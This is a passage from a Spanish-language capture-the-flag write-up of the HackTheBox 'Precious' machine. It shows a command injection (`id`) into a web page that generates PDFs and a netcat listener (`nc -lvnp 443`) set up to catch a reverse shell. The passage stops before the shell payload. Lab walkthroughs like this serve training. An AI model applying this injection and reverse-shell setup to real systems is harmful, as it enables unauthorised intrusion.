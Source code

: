 Según lo indicado, vamos a probar si podemos explotar esta vulnerabilidad, intentando inyectar el comando `id` en la página web.

![precious-5](/assets/img/htb/precious/precious-5.png)

---
Verificamos en el PDF que nos muestra el output del comando inyectado.

![precious-6](/assets/img/htb/precious/precious-6.png)

---
Vamos a enviar un payload a la aplicación para obtener una Reverse Shell. En nuestra máquina atacante, configuramos `netcat` para escuchar en el puerto 443.

```bash
nc -lvnp 443
_______________________________________________________________________
listening on [any] 443 ...
```
---
Luego, procedemos a enviar la reverse shell, especificando nuestra IP atacante y el puerto por el cual haremos la conexión.
